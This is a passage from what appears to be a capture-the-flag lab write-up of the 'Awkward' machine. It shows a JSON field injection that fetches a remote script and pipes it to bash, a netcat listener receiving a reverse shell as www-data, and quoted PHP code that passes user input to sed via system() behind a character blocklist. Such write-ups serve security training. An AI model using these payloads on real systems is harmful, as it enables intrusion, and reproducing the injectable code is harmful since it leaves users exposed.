 
    oxdf@hacky$ curl http:/hat-valley.htb/api/submit-leave -H "Content-type: application/json" -d '{"reason": "$(curl http://10.10.14.6/shell|/bin/bash)", "start": "today", "end": "tomorrow"}' -b "token=$token"



This time it just hangs. At `nc`, there's a shell as www-data:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.185 54006
    bash: cannot set terminal process group (64281): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@awkward:~/hat-valley.htb$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Unpatch RCE as www-data

#### Identify Parameter Injection

There's another unpatched RCE as www-data via the store website (thanks
to Ippsec for finding this one). This one comes a bit later in the box,
and comes from a shell as bean.

As bean, I'm able to see the store source, and how the site is using
files instead of a database. The action to delete an item from a cart
(which is a file) uses `sed` in a `system` call:



    //delete from cart                                                                                       
    if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['action'] === 'delete_item' && $_POST['item'] && $_POST['user']) {
        $item_id = $_POST['item'];
        $user_id = $_POST['user'];                                                                                                                                                                                         $bad_chars = array(";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"); //no hacking allowed!!
                                                        
        foreach($bad_chars as $bad) {
            if(strpos($item_id, $bad) !== FALSE) {
                echo "Bad character detected!";
                exit;
            }
        }
                                                        
        foreach($bad_chars as $bad) {        
            if(strpos($user_id, $bad) !== FALSE) {                                                           
                echo "Bad character detected!";
                exit;
            }
        }
        if(checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
            system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
            echo "Item removed from cart";
        }
        else {
            echo "Invalid item";
        }
        exit;
    }
